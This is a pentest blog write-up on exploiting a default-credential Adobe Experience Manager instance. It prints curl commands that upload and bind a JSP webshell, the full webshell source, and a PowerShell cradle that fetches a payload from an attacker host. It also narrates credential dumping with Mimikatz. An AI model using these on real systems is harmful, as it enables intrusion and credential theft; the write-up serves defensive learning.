 ```yaml
---
title: Adobe Experience Manager Exploitation
description: >-
  I was recently working on an external penetration testing assessment in which
  the only information provided to me was the IP address range…
image: images/blog/AEM.jpeg
date: '2020-01-10T18:52:27.154Z'
categories: []
keywords: []

---
```


I was recently working on an external penetration testing assessment in which the only information provided to me was the IP address range. During the initial phase of active enumeration and information gathering, I enumerated subdomains, port-scanned, explored services and carried out several OSINT techniques.

A list of resources was compiled and ranked based on several factors including data like leaked credentials, outdated software, exposed services, etc.

In this activity, I identified a running Adobe Experience Manager Instance. Then I gathered more information about AEM like default credentials, any publicly known exploit and version details of AEM.

![_Figure 1: Adobe Experience Manager Login_](/images/blog/1____f32f9IdCAw60hfg__3__6PA.png)
_Figure 1: Adobe Experience Manager Login_

This AEM instance was installed with a default configuration and default credentials were working, I logged into AEM with the default user. 😊

![_Figure 2: AEM Default Login_](/images/blog/1__0wKLemm6UREx__U5UHf4l1Q.png)
_Figure 2: AEM Default Login_

In further reconnaissance, I identified a potential AEM RCE vulnerability. [Mikhail Egorov](https://www.slideshare.net/0ang3el?utm_campaign=profiletracking&utm_medium=sssite&utm_source=ssslideview) has presented AEM Exploitation in PHDays Security Conference and focused my efforts to exploit this vulnerability.

AEM has a feature called ‘RCETYPE’, which can be used to get access to the server. I created a new ‘RCETYPE’ and used a sling operator which offers an adapter pattern to conveniently translate objects that implement the adaptable interface.

The exploitation required multiple steps to be executed as listed below:

1.  _Create a Folder RCETYPE_
2.  _Upload the JSP shell to a specific path_
3.  _Move the app to a specific location._

I have used following commands to create a malicious RCETYPE

*   I have created a folder “RCETYPE”

**_curl –u admin:admin –Fjcr:primaryType=nt:folder_** [**_http://IPAddress/content/rcetype_**](http://ipaddress/content/rcetype)

![_Figure 3: Node Created_](/images/blog/1__JeoJPN6doUE__7q__rgN0gCw.png)
_Figure 3: Node Created_

*   I then uploaded a jsp shell to rcetype node.

**_curl –u admin:admin –Fexec.jsp=@RCE.jsp_** [**_http://IP_**](http://IP) **_Address /content/rcetype_**

The jsp shell (shown below) was then used in order to try and execute operating system commands.

**_<%@ page import=”java.util.\*,java.io.\*,java.net.\*”%>  
<%  
//  
// JSP\_KIT  
//  
// cmd.jsp = Command Execution (win32)  
//  
// by: Unknown  
// modified: 27/06/2003  
//  
%>  
<HTML><BODY>  
<FORM METHOD=”POST” NAME=”myform” ACTION=””>  
<INPUT TYPE=”text” NAME=”cmd”>  
<INPUT TYPE=”submit” VALUE=”Send”>  
</FORM>  
<pre>  
<%  
if (request.getParameter(“cmd”) != null) {  
out.println(“Command: “ + request.getParameter(“cmd”) + “\\n<BR>”);  
Process p = Runtime.getRuntime().exec(“cmd.exe /c “ + request.getParameter(“cmd”));  
OutputStream os = p.getOutputStream();  
InputStream in = p.getInputStream();  
DataInputStream dis = new DataInputStream(in);  
String disr = dis.readLine();  
while ( disr != null ) {  
out.println(disr); disr = dis.readLine(); }  
}  
%>  
</pre>  
</BODY></HTML>_**

The shell code could then be used to execute operating system commands.

*   Then I copied the rcetype to /apps.

**_curl –u admin:admin –F:operation=copy –F:dest=/apps/rcetype_** [**_http://IP_**](http://IP) **_Address /content/rcetype_**

*   I used sling to create a rce node bound to rcetype.

**_curl –u admin:admin –Fsling:resourceType=rcetype_** [**_http://IP_**](http://IP) **_Address/content/rce_**

*   I was able to launch the jsp script for code execution 😊

**_curl –X “GET”_** [**_http://IP_**](http://IP) **_Address /content/rce.exec Or Open this link in browser_**

![_Figure 4: Command Shell_](/images/blog/1__4vAvr__H2SFdUcO__QKiQnAw.png)
_Figure 4: Command Shell_

My next step was to achieve better control via an interactive shell. To convert this command shell to a meterpreter shell I relied on “exploit/multi/script/web\_delivery” Metasploit exploit.

**http://<target> /content/rce.exec?cmd=powershell.exe%20-nop%20-w%20hidden%20-c%20$D=new-object%20net.webclient;$D.proxy=\[Net.WebRequest\]::GetSystemWebProxy();$D.Proxy.Credentials=\[Net.CredentialCache\]::DefaultCredentials;IEX%20$D.downloadstring(%27http://<attacker>%27);**

![Figure 5: Meterpreter Session](/images/blog/1__HjQY3rzubiWZfkz20dt__0Q.png)
Figure 5: Meterpreter Session

Using this meterpreter shell I fiddled with the compromised system and looked around for anything that could help me during post-exploitation. I got a meterpreter shell for a user who had local admin rights which then elevated to a SYSTEM shell.

![Figure 6: Current User](/images/blog/1__wdAvcOVrsYPGT4wCud51cw.png)
Figure 6: Current User

Then I dumped hashes, tried to fetch clear text passwords using Mimikatz, extract delegation tokens and used post exploitation modules like lsa\_secrets which gave me working clear-text credentials for one of the users.

![Figure 7: LSA Secrets](/images/blog/1__rQpdllogOl__RdlXC6GLXnQ.png)
Figure 7: LSA Secrets![Figure 8: Mimikatz Output](/images/blog/1__ZsY1MSvWFqcj__olUinENew.png)
Figure 8: Mimikatz Output![Figure 9: Cache Dump](/images/blog/1__OW0xpEKRwbTB1hcxGFWUWQ.png)
Figure 9: Cache Dump

As the compromised host was in a domain, I used a meterpreter shell to enumerate more about the domain (i.e. users, groups, password policy, DC)

![_Figure 10: Domain Admins_](/images/blog/1__XxjnNhCz2PZj7hmaRgxC0A.png)
_Figure 10: Domain Admins_

Then I enumerated the password policy details using the obtained credentials. Seeing the password policy did implement lockout I ruled out password brute force.

![Figure 11: Domain Account and Password Policy Details](/images/blog/1__e__yn__YM3neP0TWvmRnVd7g.png)
Figure 11: Domain Account and Password Policy Details

I performed an ARP scan to identify live hosts on the network using a post-exploitation Metasploit module and identified multiple hosts and started performing internal scans for the most common services (i.e SMB, SSH, RDP, etc.)

![Figure 12: Internal Network Scan](/images/blog/1__iu6uJAdL1smwPYr4HuL8RA.png)
Figure 12: Internal Network Scan

Further analysis didn’t reveal much attack surface hence I focused on single user and system where I had access. With clear text credentials at hand, it was easier to investigate the box using RDP Access. Hence RDP access was obtained leveraging port forwarding. Then I did port forwarding and took RDP access of the compromised system using the compromised credentials which we got from the Metasploit post exploitation module (lsa\_secrets)

![Figure 13: Port Forwarding](/images/blog/1__XU6v8k3x5hK0xJYTwlXHpg.png)
Figure 13: Port Forwarding![Figure 14: RDP Session](/images/blog/1__AXTUNnu__snsBXw64MBIQpg.png)
Figure 14: RDP Session

During further recon, I identified sensitive information stored in the config file and saved credentials.

![Figure 15: Password Stored in Config File](/images/blog/1__1cxP1rD0__JoSyseY17__b__A.png)
Figure 15: Password Stored in Config File![Figure 16: Stored Password](/images/blog/1__zBWjQaJruYyy9fvJCR4SEw.png)
Figure 16: Stored Password

I also found credentials in Browser Saved Passwords.

![Figure 17: Saved Password in Web Browser](/images/blog/1__bTyWc3ScVxsSyo4gjNyiWQ.png)
Figure 17: Saved Password in Web Browser

However, I had to stop the attack at this point as this didn’t lead to any new target area and the client was interested in working on remediation.

Unfortunately, in this instance, I was not able to compromise the domain controller and therefore the entire domain, however as I have stated from the external network and due to default application install that came with a pre-installed account. I was able to gain internal network access.

HAPPY HUNTING :)